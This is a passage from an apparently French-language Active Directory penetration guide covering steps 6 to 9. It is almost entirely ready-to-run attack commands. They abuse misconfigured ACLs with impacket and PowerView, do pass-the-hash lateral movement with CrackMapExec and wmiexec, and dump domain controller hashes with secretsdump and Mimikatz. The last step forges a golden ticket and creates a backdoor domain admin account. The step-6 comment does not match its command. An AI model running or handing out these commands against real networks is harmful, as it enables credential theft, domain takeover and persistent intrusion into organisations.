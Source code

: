 #### Étape 6 : Exploitation des ACL (Access Control Lists)

Si BloodHound a identifié des chemins d'attaque basés sur des ACL mal configurées :

```bash
# Exemple : Ajouter un utilisateur à un groupe privilégié
impacket-addcomputer entreprise.local/utilisateur_compromis:'MotDePasse123' -computer-name 'EVILCOMPUTER$' -computer-pass 'EvilPassword123' -dc-ip 192.168.1.100

# Exploitation de WriteDACL avec PowerView (via PowerShell)
$SecPassword = ConvertTo-SecureString 'MotDePasse123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('entreprise.local\utilisateur_compromis', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -PrincipalIdentity "utilisateur_compromis"
```

#### Étape 7 : Mouvement latéral avec Pass-the-Hash ou Pass-the-Ticket

Une fois des hashes NTLM ou des tickets Kerberos obtenus :

```bash
# Pass-the-Hash avec CrackMapExec
crackmapexec smb 192.168.1.100 -u administrateur -H 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' --shares

# Pass-the-Hash avec WMIExec
impacket-wmiexec -hashes 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' entreprise.local/administrateur@192.168.1.100
```

#### Étape 8 : Extraction de données sensibles

Une fois les privilèges d'administrateur de domaine obtenus :

```bash
# Extraction des hashes NTLM avec Secretsdump
impacket-secretsdump -just-dc entreprise.local/administrateur:'MotDePasse'@192.168.1.100

# Extraction des tickets Kerberos avec Mimikatz
# (Nécessite un accès direct à un contrôleur de domaine)
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
```

#### Étape 9 : Persistance (optionnelle)

Pour maintenir l'accès au domaine :

```bash
# Création d'un Golden Ticket avec Mimikatz
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:entreprise.local /user:krbtgt" "kerberos::golden /domain:entreprise.local /sid:S-1-5-21-... /rc4:krbtgt_hash /user:fakeadmin /ptt" "exit"

# Ajout d'un utilisateur au groupe Domain Admins
net user hacker Password123! /add /domain
net group "Domain Admins" hacker /add /domain
```
